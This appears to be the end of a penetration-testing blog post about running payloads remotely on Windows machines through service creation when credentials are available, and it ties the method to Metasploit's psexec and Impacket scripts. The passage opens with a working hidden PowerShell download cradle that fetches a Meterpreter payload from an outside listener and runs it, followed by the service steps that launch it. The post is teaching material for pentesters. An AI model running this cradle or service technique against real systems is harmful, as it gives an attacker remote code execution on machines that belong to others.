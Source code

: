 ```
powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');
```

From our Windows attack box, we create a remote service ("metpsh") and set the binPath to execute cmd.exe with our payload:

![sc create psh](/content/images/2016/04/sc_psh_create.png)

And then start it:

![sc start psh](/content/images/2016/04/sc_psh_start.png)

It errors out because our service doesn't respond, but if we look at our Metasploit listener we see that the callback was made and the payload executed:

![metasploit psh meterpreter](/content/images/2016/04/meterpreter_psh_exec.png)

And we just launched a meterpreter payload remotely through a Windows service without dropping a binary.

Which, by the way, is nothing revolutionary. This is *exactly* how Metasploit tries to execute payloads through the `psexec` module now. The default behavior when using the module is to check to see if PowerShell is available and then create a service calling PowerShell from %COMSPEC%. Only if PowerShell is not available or you manually specify it will Metasploit actually drop a binary on the target systems now (which is good, since most AV detects Metasploit binaries now).

## Coming Up
In this post I walked through how Windows services can be used to remotely execute commands when you have credentials. Hopefully this exposed some of the "magic" behind Metasploit's psexec module and Impacket's psexec and smbexec scripts. If you're ever on a pentest and don't have access to Kali, now you know how to use native Windows tools to replicate some of the behavior.

Next up, I'll go into using Windows Management Instrumentation (WMI) and Windows Remote Management (WinRM) to also achieve authenticated RCE on Windows boxes (the technique behind wmiexec.py). 

Hope this helped someone. Writing it and exploring these tools certainly helped me. Feel free to comment with questions or tell me where I'm wrong.

-ropnop 